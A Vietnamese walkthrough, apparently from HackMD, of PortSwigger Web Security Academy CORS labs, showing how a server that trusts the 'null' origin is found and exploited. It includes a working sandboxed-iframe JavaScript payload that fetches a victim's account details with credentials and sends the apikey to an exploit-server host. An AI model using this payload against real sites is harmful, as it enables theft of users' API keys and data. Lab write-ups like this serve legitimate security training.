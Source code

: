 - Trang web này có cấu hình CORS không an toàn ở chỗ nó tin tưởng vào nguồn gốc "null".
- Tương tự bài trên, apikey của user cũng được trích xuất thông qua response từ /accountDetails.

![image](https://hackmd.io/_uploads/S1f4J2zap.png)

Xuất hiện header Access-Control-Allow-Credentials: true nên có thể suy ra server hỗ trợ CORS.

![image](https://hackmd.io/_uploads/S1dDkhfa6.png)

Nếu thêm Origin bất kì http://abc.com vào request thì thấy server không trust origin bất kì từ request.

![image](https://hackmd.io/_uploads/Bkx6knGT6.png)

Tuy nhiên, khi thêm header Origin: null thì thấy response có header Access-Control-Allow-Origin: null. → server cấu hình cho phép Origin: null.

![image](https://hackmd.io/_uploads/ryJAJ3G6T.png)

### Khai thác

- mình dùng payload với iframe sanbox như sau rồi đẩy vô phần body của Exploit Server.

```javascript!
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="data:text/html,<script>
    fetch('//<LAB-ID>.web-security-academy.net/accountDetails', {
        credentials:'include'
    }).then(r => r.json())
      .then(j => fetch('//exploit-<EXPLOIT-ID>.exploit-server.net/?apiKey=' + j.apikey))</script>">
</iframe>
```

- Cái iframe sanbox sẽ tạo ra null origin reques

- Sau đó mình có thể chọn Store và View exploit để kiểm hàng trong Access log để xác nhận sự hiện diện của API Key là **rzsg171IPMX6uSjQIoe4Oe3kwvm3fAh6**

![image](https://hackmd.io/_uploads/SkGzMnzap.png)

đem đi sunmit và mình solve được lab này

![image](https://hackmd.io/_uploads/ryySz3M6T.png)

## 3. Lab: CORS vulnerability with trusted insecure protocols

link: https://portswigger.net/web-security/cors/lab-breaking-https-attack

### Đề bài

![image](https://hackmd.io/_uploads/HkeFG2z66.png)

### Phân tích
